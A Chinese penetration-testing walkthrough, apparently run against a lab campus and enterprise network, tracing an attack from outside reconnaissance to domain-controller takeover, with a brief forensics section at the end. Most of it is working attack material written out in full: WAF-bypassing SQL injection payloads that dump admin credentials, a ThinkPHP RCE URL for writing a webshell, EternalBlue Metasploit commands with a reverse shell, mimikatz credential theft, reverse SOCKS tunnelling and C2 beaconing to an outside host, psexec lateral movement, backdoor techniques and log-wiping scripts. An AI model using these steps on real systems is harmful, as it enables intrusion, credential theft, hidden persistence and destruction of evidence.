# 从0到1通过外网渗入内网的一种思路及溯源分析-先知社区

> **来源**: https://xz.aliyun.com/news/19280  
> **文章ID**: 19280

---

# 渗透测试流程

## 环境拓扑及状况说明



在这里，将通过公网进行渗透测试，其目的是为了渗透进目标内网，取得重要信息文件并提升自己的权限渗透进目标系统内网中的其他设备。

* XX校园网开设两个Web服务，并具有Web防火墙功能

* 校园网站
* 学生信息管理

* XX企业网没有开设Web服务，且没有连接公网

目前仅知道XX校园网的域名，并不知道其他信息，需要自主获取

## 信息搜集阶段

在渗透测试中，万事开头难，为了取得系统的权限，早期的信息收集阶段通常是最重要的。

一般前期扫描的时候，需要尽可能搜集到更多的数据，在Web方面可以收集如下信息，子域名、C段、CMS指纹信息、WHOIS信息、敏感目录搜集等，而在系统方面，能搜集的信息更为广阔，任何操作系统所暴露在互联网上的漏洞都是致命性的，造成这种原因的罪魁祸首往往是系统端口，系统端口就好比黑客的大门，黑客可以想方设法破解大门，从而轻而易举的推开这扇大门。

目标网站仅给出了一个域名，在这种时候，往往处于黑盒测试，因为我们对系统内部逻辑并不了解，我们可以判断该域名是否使用了CDN（内容分发网络），有些CDN可以充当内容存储服务用来加快网站访问速度，当然，也有些CDN充当WAF服务，可以承受上千上万的DDOS流程攻击，在这时候服务器的真实IP往往是不可见的。

常用检测CDN方法如下，ping命令，从下图我们可以看出来目标管理站点并没有进行使用CDN，而使用了CDN的站点域名解析将使用CNAME类型，在这时候网站的源IP将变成CDN供应商的IP



如果目标站点使用了CDN，也有破解的办法，可以通过一些域名解析记录网站搜索目标站点的旧IP，进行扫描。

知道了站点的IP，接下来就要进行扫描了，使用NMAP对目标进行扫描，可以发现目标器运行的是Windows Server 2008 R2系统，且开启了80、445、8080端口，此外，NMAP还检测出该操作系统存在MS10-054、MS10-061、MS17-101、CVE-2009-3103这几个漏洞。







Web安全测试

通过子域名爆破系统所获得的服务器子域名



使用who.is工具查询DNS记录



使用nextassets扫描工具搜寻主机的敏感目录信息



可以发现目标站点存在一个目录遍历漏洞，点开这些文件可以直接把源代码文件下载下来，在渗透测试中，这往往是致命的，一些黑客可以审计代码分析出程序的逻辑漏洞，包括使用了哪些危险函数，一旦分析出代码存在漏洞，即可攻破系统。



上图是一个存在漏洞的动态页面，这个将作为入口，进一步攻击进内网。

访问8080端口，发现系统开了一个Web服务



在URL处构造错误的语句可以根据报错信息查看目标的CMS版本，语句如下[http://xxx.xxx.xxx.xxx:8080/?s=index/ hink\app/](http://xxx.xxx.xxx.xxx:8080/?s=index/	hink\app/)



可以发现目标使用了ThinkPHP 框架，其版本为V5.0.0。

## 漏洞验证阶段

在Web安全方面，可分为SQL注入、XSS漏洞、CSRF攻击、SSRF攻击、SSTI模板注入漏洞、命令执行等攻击方法，这里我将使用最朴素且破坏性最强的SQL注入攻击。

* SQL注入漏洞成因

SQL注入产生的实质是因为恶意代码被伪装成正常的输入数据，与输入命令拼接在一起，成为可执行命令，提交到服务器的数据库。其漏洞产生原因主要是由于编程人员Web安全知识不足或缺少安全编程经验，编写的代码不完善。

* SQL注入测试

要执行SQL注入，首先得判断目标是否存在SQL注入，使用最基本的注入语句and 1=1、and 1=2，这两条语句的意思表示假和真，当语句为真时，返回正确页面，当语句为假时，则显示空白页面，当语句成功执行后，我们可以进一步得到我们想要的信息，使用order by语句进行列查找，order by 一个数列…，当order by n， n-1时返回一个正常的页面，则说明当前数据表有n-1个字段，知道字段后我们可以进一步的测试，使用union联合查询法，联合查询发是将多个select查询结果放在一起回显数据，利用这一特点进行拼接，得到想要的信息，语句如下union select字段数，字段上可以使用系统函数、查表语句、查列语句，甚至可以直接查询数据



在进行注入的时候，往往会遇到WAF，WAF全称网站应用级入侵防御管理系统，通俗来说就是Web防火墙，一般被拦截后会回显以下数据。



常见的WAF有D盾，奇安信防御系统、360、网防110防御系统、安全狗等相关安全厂商WAF，根据拦截或报错信息其绕过方法也层出不穷，下面是目标网站的一个WAF



这里将使用大小写及双写注入进行绕过，使用语句

```
-123123' UnIuNIoOnoN+sElsELeCtEcT+1,database(),3,4,5,6,7,8,9,10+%23
```

页面返回如下



从这里可以看到目标站点的数据库为xxx\_system\_db，现在就可以通过数据库名进行列表名查询，使用语句：

```
-123123' UnIuNIoOnoN+sElsELeCtEcT+1,select+(group_concat(table_schema)from+information_schema.tables+where+table_name=(`student_index_db`)),3,4,5,6,7,8,9,10+%23
```

页面返回如下



从上图两张信息可以获取到的信息有，目标站点数据库名为：xxxx\_system\_db，表为article\_news，为此可以继续构造语句，直接把数据库的用户表信息给破解出来。

```
-1123123'+and(SeLSeLeCteCt+1+frOM(SeLeCt+count(*),concat((select+(select+(select+distinct+concat(0x23,users_name,0x3a,users_password,0x23)FROM+admin_tables+limit+0,1))+from+information_schema.tables+limit+0,1),floor(rand(0)*2))+x+from+information_schema.tables+group+by+x)a)+%23
```



上图数据便是该网站后台管理的用户名和密码，在这里有一个明显的安全漏洞，那就是网站使用了不安全的明文加密存储，从而使攻击者可以直接登录网站后台，进行进一步的破坏。



登陆网站后台后，我们可以进行各种操作，包括木马上传，构造危险执行语句等，在这里引入WebShell概念。

WebShell，相当于黑客的城堡，Shell是用编程语言写的程序，而WebShell就相当于是管理Web的一个工具，使用WebShell可以对网站进行许多操作，WebShell的用途强大，可以用来命令执行，下载或上传文件，操作数据库，等等。



在这时候，找个上传点插入一句话木马，一句话木马的运行过程如下。

插入页面->页面存储到数据库->数据库备份后缀重命名为.php->获得Shell

至此，该系统已被测试人员攻破，但信息不完整，一般来说，可以把系统权限提权到SYSTEM权限才算成功。



### 小插曲命令执行测试

命令执行漏洞一般来说是指用户提交给网站后台的数据，开发人员没有对一些危险函数进行过滤，从而导致直接或间接执行系统命令。

回到8080端口，测试人员发现8080端口使用了ThinkPHP框架，近几年来ThinkPHP框架漏洞百出，这里将构造几条命令执行漏洞语句渗透进目标服务器。

```
http://xxx.xxx.xxx.xxx:8080//?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&var[1][]=phpinfo&vars[1][1]=0
```

取得PHPINFO信息



写入一句话木马，拿下SHELL



除此之外目标系统还开放了445端口，为此，我们可以利用MS-17010（永恒之蓝）漏洞获取系统SHELL。

永恒之蓝使用Windows中的445和139的TCP端口利用SMB的远程代码执行漏洞，一旦黑客攻击成功，恶意代码将会开放445端口

启动Kali Linux渗透测试系统，使用Kali自带的Metasploit工具进行渗透测试。

输入测试命令

```
msf6>use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue)> set RHOSTS x.x.x.x
RHOSTS =>x.x.x.x
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/meterpreter/reverse_tcp
payload=>windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue)> set LHOST x.x.x.x
LHOST =>x.x.x.x
msf6 exploit(windows/smb/ms17 010 eternalblue)>
```

在完成攻击后，Kali Linux主机会建立一个会话窗口，并打印渗透成功的信息



### 系统信息搜集

现在，已经获取到了Windows Server 2008服务器的信息，为了进一步获取想要的信息，这里将通过Meterpreter进行渗透测试，并逐一进行分析。

常用的Meterpreter语句



查看系统基本信息



查看系统进程



获取系统hash值



在这里，可以通过Meterpreter上传Mimikatz.exe抓取Windows密码，下图为上传mimikatz.exe



上传成功后，运行shell命令并执行mimikatz.exe工具



然后抓取明文密码

```
mimikatz
privilege::debug
sekurlsa::logonPasswords
```



至此，已经知道了目标服务器管理员的密码，接着，可以通过执行下面语句来打开远程桌面服务

```
# Metasploit-Framework
run post/windows/manage/enable_rdp
```

一般情况下，运维工程师只会在更新或维护系统下打开远程桌面服务，也有个别会直接在服务器上修改代码，所以远程桌面服务在大多数情况下是关闭的。





## 后渗透测试阶段

后渗透的目的是为了持续对机器的控制，以备日后使用。机器的价值取决于其硬盘上存储的数据的敏感性以及机器在进一步横向攻击其它主机的有用性。

目前渗透测试的拓扑如下，XX校园网服务器已经沦陷。



### 权限提升

一般情况下，如果我们在渗透测试中拿到了系统的Shell，权限都是非常低的，大多数权限都是Guest或者Users组权限，这样会使我们的操作受到很多限制，如果要进行横向攻击或清除日志，不提高自己的权限，操作起来是非常困难的。

一般来说提权方法分为两类，即纵向提权和横向提权

纵向提权：低权限角色得到高权限角色的权限。

例子：小明在某家百货公司里当刷马桶的，突然有一天，老板看见小明的马桶刷得干干净净，直接退位把小明抬上了CEO的位置。从系统角度来说，相当于Guest来宾用户权限提到了Administrator管理员权限。

横向提权：得到同级别的权限

例子：小明在排队的时候，编号为12，并不知道前后面的编号是多少，于是小明一个个去问，去了解他们的姓名。在这时候就好比user1不知道user2信息，通过横向提权，获得到了user2的信息。



一般拿到低权限shell，例如webshell或服务器低权限shell，基本提权思路如下

（1） 获权主机信息

（2） 寻找EXP利用

（3） 尝试提权到高权限用户

（4） 添加隐藏账户

Linux下提权

Linux常用提权方法，内核漏洞提权、SUDO提权、通配符注入等，常用的提权漏洞如下。

CVE-2021-33909、CVE-2021-3156、CVE-2020-14386、CVE-2014-9922、CVE-2021-22555、CVE-2017-7184、CVE-2021-33909、CVE-2017-16939、…

Windows下提权

Windows下常用访问方法，可以通过系统内核漏洞，或者错误的服务权限配置，再然后就是dll 注入，凭据存储等，常用的提权漏洞如下。

MS16-032、巴西烤肉、CVE-2016-0095、土豆家族、…

### 内网渗透

在上文，已经拿到了XX校园网的权限，并且可以登录远程桌面。与此同时，发现XX校园网与XX企业网处在同一个局域网内，这意味着可以通过XX校园网渗透进XX企业网。首先先让XX校园网连上C2服务器

C2 相当于黑客的中转站，可以把得到Shell的主机反弹到黑客的服务器上。



使用CS生成攻击载荷并上传至XX校园网服务器



XX校园网上线C2



#### 内网信息搜集

内网信息资源辽阔，如果盲打的话会受到很多阻碍，为此，可以通过渗透后的主机作为跳板，横向搜集其它主机，具体可以使用一些命令来进行搜集。

```
net user /domain
net view /domain
net view /domain:NAME
net group /domain
net group "domain computers" /domain
net group "domain admins" /domain
net group "domain controllers" /domain
net group "enterprise admins" /domain
nettime /domain
```

查看主机信息



查看组





从上图几张信息可以看出来XX校园网是某台主机的域成员，为此我们可以通过XX校园网渗透进域控制服务器，从而进一步的渗透。

# 内网横向

在获得域控制服务器之前，会遇到两种状况，有些服务器可以直接域服务器而有些服务器不可以直接攻击域服务器，需要代理渗透测试工具或反弹Socks端口来进行渗透。

在这里可以使用CS导出凭据信息方便接下来的渗透。



接下来使用Kali Linux反弹Socks5服务器，使用命令，socks5proxy -s rcsocks -l 1080 -e 26254，接着在XX校园网上使用EW反弹到Kali Linux的Socks5，端口为26254。使用命令，socks5proxywin -s rssocks -d xxx.xxx.xxx.xxx -e 26254。执行命令成功后即可在Kali Linux上配置socks信息，打开/etc/proxychains.conf文件，新增本地代理为socks5 127.0.0.1 1080，在Kali上使用命令proxy ping 127.0.0.1，回显成功即表示代理成功。

接着使用Nmap进行网段内存活主机扫描，使用命令，proxy nmap -sT -Pn 10.22.233.0/24



经过一轮扫描，发现网段内除了IP 234是本机，还存活一台IP为233的主机，为此，我们可以断定这台就是域控制服务器。

接着代理Metasploit工具，利用MS-17010进行永恒之蓝攻击，此时IP为10.22.233.234（XX校园网），10.22.233.233（域控制器）。当MS-17010攻击成功后，使用Meterpreter里的screenshot对系统进行截图。



可以发现，这台就是XX企业网的服务器。至此，我们将XX企业网的服务器反弹到C2上面，首先在CS本地先建一个SMB Beacon，然后建立一个ipc连接，命令：shell net use \\10.22.233.233\$IPC /u: "Administrator":"pass.123"，等待命令执行，成功建立后，进行横向渗透，使用语句jump psexec\_psh 10.22.233.233，至此，等待XX企业网服务器上线C2，渗透结束。

### 后门技术

有时候，黑客往往会暂时退出渗透测试，为了以后的日子里可以随时进行连接，黑客往往会在系统看不见的地方留下特殊程序或用户,接下来有几种常见的后门技术。

（1）映像劫持

映像劫持，简单来说就是当目标系统被映像劫持攻击时，如果我们启动目标程序，启动后的是劫持后的程序而不是系统本来的程序

具体操作步骤，打开注册表，如图打开注册表项

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option
```

在里边添加一个项，然后在项中添加恶意键值，键值为我们恶意程序的路径。

（2）Shift后门

Shift在日常生活中很常见，在windows中起到了辅助功能，能在用户未登录操作系统之前启动它，下图是Shift键的一些辅助功能

```
C:\Windows\System32\sethc.exe # press 5 times shift key
C:\Windows\System32\utilman.exe # windows+U
```

在早的Windows中，可以直接把setch.exe覆盖成恶意程序。

（3）计划任务

在Windows下设置定时任务有两条命令，分别是at和schtasks，它们的主要区别是at命令在新版操作系统中是不能将任务放在前台执行的，也就是说会启用一条进程，而schtasks是将定时的任务放在前台执行的。

## 痕迹清除

当渗透测试结束后，如果测试人员不想进一步测试或者临时离开测试环境，可以对系统日志进行清除。

在Linux清除日志的命令

```
#!/bin/sh
cat /dev/null >/var/log/syslog
cat /dev/null >/var/adm/sylog
cat /dev/null > /var/log/wtmp
cat /dev/null > /var/log/maillog
cat /dev/null >/var/log/messages
cat /dev/null > /var/log/openwebmail.log
cat /dev/null > /var/log/maillog
cat /dev/null > /var/log/secure
cat /dev/null >/var/log/httpd/error_log
cat /dev/null >/var/log/httpd/ssl_error_log
cat /dev/null >/var/log/httpd/ssl_request_log
cat /dev/null >/var/log/httpd/ssl_access_log
```

Windows下清空远程桌面连接记录如下

```
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client" /f del /a /f /q %HOMEPATH%\Documents\Default.rdp
```

在Windows桌面下清除日志步骤如下

```
开始 - 程序 - 管理工具 - 计算机管理 - 系统工具 - 事件查看器，然后清除日志
```

Meterpreter下删除日志，run event\_manager -c。

# 分析溯源

现在，得站在被攻击者的角度上看，黑客已经侵入到了服务器，但是黑客并没有对服务器进行增删改，为此，分析溯源将从两个角度去看。

第一个是进行时，也就是应急响应，在这种情况下，服务器是正在遭受黑客攻击的，工程师需实时跟黑客进行对抗。

第二个是过去时，也就是已经发生了的，在这种情况下，分析溯源可以查到很多东西，如黑客在某某文件夹做了什么手脚，这时候我们可以通过降序来查看文件夹的修改日期，或者通过Windows事件日志文件进行分析。

Windows日志会随着系统的运行而不断更新记录日志信息。根据种类可以分为事件日志、IIS日志、FTP日志，数据库日志，邮件服务日志等。

事件日志

输入eventvwr.msc 打开事件查看器，查看日志

Windows事件日志文件非常强大，基本上记录了操作系统的一举一动，其中包括了系统的安全，一些应用程序的运行/出错记录，每个记录的事件都包含了非常详细的元素，以便运维人员进行数字取证，从而分析目标来源。



IIS日志

Windows Server 2003 iis6日志路径：C:\Windows\System32\LogFiles

Windows Server 2008 R2、2012、2016、2019 iis7以上日志路径：C:\inetpub\logs\LogFiles


